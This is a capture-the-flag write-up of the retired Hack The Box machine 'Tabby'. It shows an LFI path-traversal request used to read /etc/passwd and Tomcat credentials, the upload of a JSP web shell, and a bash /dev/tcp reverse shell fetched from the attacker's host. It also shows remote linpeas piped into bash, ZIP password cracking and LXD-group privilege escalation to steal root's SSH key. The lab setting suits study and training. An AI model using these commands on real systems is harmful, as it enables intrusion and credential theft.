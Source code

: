# Tabby

This is the write-up for the box Tabby that got retired at the 7th November 2020.
My IP address was 10.10.14.10 while I did this.

Let's put this in our hosts file:
```markdown
10.10.10.194    tabby.htb
```

## Enumeration

Starting with a Nmap scan:

```
nmap -sC -sV -o nmap/tabby.nmap 10.10.10.194
```

```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 45:3c:34:14:35:56:23:95:d6:83:4e:26:de:c6:5b:d9 (RSA)
|   256 89:79:3a:9c:88:b0:5c:ce:4b:79:b1:02:23:4b:44:a6 (ECDSA)
|_  256 1e:e7:b9:55:dd:25:8f:72:56:e8:8e:65:d5:19:b0:8d (ED25519)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Mega Hosting
8080/tcp open  http    Apache Tomcat
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: Apache Tomcat
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Checking HTTP (Port 80)

The web page is a custom-developed company website with the title _"Mega Hosting"_ that offers server hosting services.

![Mega Hosting homepage](tabby_web-1.png)

There is a statement from the company about a data breach, which forwards to the domain _megahosting.htb_, so lets put that into our _/etc/hosts_ file:
```
We have recently upgraded several services. Our servers are now more secure than ever. Read our statement on recovering from the data breach
```

It forwards to _/news.php?file=statement_ which looks like it is vulnerable to a **Local File Inclusion** vulnerability.
That means that it reads a file from the system and a different file may be specified on the box:
```
GET /news.php?file=/../../../../../etc/passwd
```

It works and outputs the contents of _/etc/passwd_.
The web files of the service on port 80 doe not look interesting, so maybe on port 8080 are important files to obtain.

## Checking HTTP (Port 8080)

The web page on port 8080 shows the default installation information that **Tomcat** was installed successfully.
On Tomcat the administration page can be found on _/manager_ but it needs credentials.

The file _tomcat-users.xml_ has the users for that and can be read by using the LFI vulnerability:
```
GET /news.php?file=../../../../usr/share/tomcat9/etc/tomcat-users.xml
```
```
<role rolename="admin-gui"/>
<role rolename="manager-script"/>
<user username="tomcat" password="$3cureP4s5w0rd123!" roles="admin-gui,manager-script"/>
```

It shows the HTTP status code _403 Forbidden_ because the Tomcat Manager is by default only accessible by localhost.
But we are able to use the credentials anyway and use a _PUT method_ on the correct path to upload files.

The **Tomcat** web server runs Java and can execute **WAR files**, which is archived Java code.
The [GitHub repository of tennc](https://github.com/tennc/webshell) has many different web shells and I will use [cmdjsp.jsp](https://github.com/tennc/webshell/blob/master/jsp/cmdjsp.jsp).

Creating a **WAR file** out of the JSP shell:
```
zip cmdjsp.war cmdjsp.jsp
```

Uploading the JSP web shell:
```
curl -T cmdjsp.war -u 'tomcat:$3cureP4s5w0rd123!' http://10.10.10.194:8080/manager/text/deploy?path=/app
```

After it is successfully uploaded, it can be found in _/app/cmdjsp.jsp_:
```
http://10.10.10.194:8080/app/cmdjsp.jsp
```

It takes commands in the POST data and `whoami` is used to proof command execution:
```
POST /app/cmdjsp.jsp HTTP/1.1
Host: 10.10.10.194:8080
(...)
cmd=whoami
```

The next step is to execute a reverse shell, but as this web shell has problems with special characters, we will instead upload a reverse shell script on the box and execute it after.

Creating reverse shell script _(shell.sh)_:
```
bash -c 'bash -i >& /dev/tcp/10.10.14.10/9001 0>&1'
```

Downloading the script to the box:
```
cmd=curl 10.10.14.10:8000/shell.sh -o /tmp/shell
```

Executing the script on the box:
```
cmd=bash /tmp/shell
```

After executing it, the listener on my IP and port 9001 starts a reverse shell as the user _tomcat_.

## Privilege Escalation

When analyzing the web files, there is a suspicious ZIP archive in _/var/www/html/files_ called _16162020_backup.zip_:
```
unzip 16162020_backup.zip

Archive:  16162020_backup.zip
[16162020_backup.zip] var/www/html/favicon.ico password:
```

It is password protected, so it needs to be cracked on our local client:
```
zip2john 16162020_backup.zip
```
```
john backup-zip.hash --wordlist=/usr/share/wordlists/rockyou.txt
```

It gets cracked and the password for the ZIP archive is:
> admin@it

The ZIP archive has the files of the web page and only _index.php_ differs from the one on the box, but it does not contain any sensitive information.
After trying the password on the user _ash_ it works:
```
su - ash
```

### Privilege Escalation to root

To get an attack surface on the box, it is recommended to run any **Linux Enumeration Script**:
```
curl 10.10.14.10/linpeas.sh | bash
```

The user _ash_ is a member of the **lxd group**, which allows to deploy containers.
A container can have the file system of the box mounted and thus it will be possible to read all files from the host system.

I will follow the [instructions on HackTricks.xyz](https://book.hacktricks.xyz/linux-unix/privilege-escalation/interesting-groups-linux-pe/lxd-privilege-escalation#method-1):

Installing all the requirements and creating container on our local client:
```
apt install -y golang-go debootstrap rsync gpg squashfs-tools
go get -d -v github.com/lxc/distrobuilder
cd $HOME/go/src/github.com/lxc/distrobuilder
make
mkdir -p $HOME/ContainerImages/alpine/
cd $HOME/ContainerImages/alpine/
wget https://raw.githubusercontent.com/lxc/lxc-ci/master/images/alpine.yaml
$HOME/go/bin/distrobuilder build-lxd alpine.yaml -o image.release=3.8
```

Uploading the two files _rootfs.squashfs_ and _lxd.tar.xz_ to the box:
```
ash@tabby:/tmp$ wget 10.10.14.10:8000/rootfs.squashfs

ash@tabby:/tmp$ wget 10.10.14.10:8000/lxd.tar.xz
```

Adding the image and then deploying the container on the box:
```
lxc image import lxd.tar.xz rootfs.squashfs --alias alpine

# Lists the created image
lxc image list
```
```
# Answer every question with default values
lxd init

lxc init alpine privesc -c security.privileged=true

# Lists the created container
lxc list

lxc config device add privesc host-root disk source=/ path=/mnt/root recursive=true
```

Starting the container and executing `sh` in it:
```
lxc start privesc
lxc exec privesc /bin/sh
```

The file systems root directory is mounted in the container on _/mnt/root_ and every file from the host can be found there.
In the directory _/mnt/root/root/.ssh_ is the private SSH key of root that can be copied to our local box and then used to access the box via SSH:
```
chmod 600 root.key

ssh -i root.key 10.10.10.194
```

A shell as root on the box is started!
